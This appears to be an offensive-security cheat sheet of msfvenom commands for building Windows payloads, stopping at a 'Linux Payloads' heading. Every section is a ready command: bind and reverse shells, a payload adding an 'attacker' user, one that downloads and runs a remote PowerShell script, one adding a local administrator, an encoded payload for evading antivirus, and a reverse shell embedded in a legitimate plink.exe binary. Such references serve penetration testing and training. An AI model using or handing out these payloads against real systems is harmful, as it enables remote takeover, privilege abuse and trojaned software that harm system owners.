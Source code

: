 ### Bind Shell

{% code overflow="wrap" %}
```bash
msfvenom -p windows/meterpreter/bind_tcp RHOST=(IP Address) LPORT=(Your Port) -f exe > bind.exe
```
{% endcode %}

### Create User

{% code overflow="wrap" %}
```bash
msfvenom -p windows/adduser USER=attacker PASS=attacker@123 -f exe > adduser.exe
```
{% endcode %}

### CMD Shell

{% code overflow="wrap" %}
```bash
msfvenom -p windows/shell/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f exe > prompt.exe
```
{% endcode %}

### **Execute Command**

{% code overflow="wrap" %}
```bash
msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell \"IEX(New-Object Net.webClient).downloadString('http://IP/nishang.ps1')\"" -f exe > pay.exe
msfvenom -a x86 --platform Windows -p windows/exec CMD="net localgroup administrators shaun /add" -f exe > pay.exe
```
{% endcode %}

### Encoder

{% code overflow="wrap" %}
```bash
msfvenom -p windows/meterpreter/reverse_tcp -e shikata_ga_nai -i 3 -f exe > encoded.exe
```
{% endcode %}

### Embedded inside executable

{% code overflow="wrap" %}
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -x /usr/share/windows-binaries/plink.exe -f exe -o plinkmeter.exe
```
{% endcode %}

## Linux Payloads
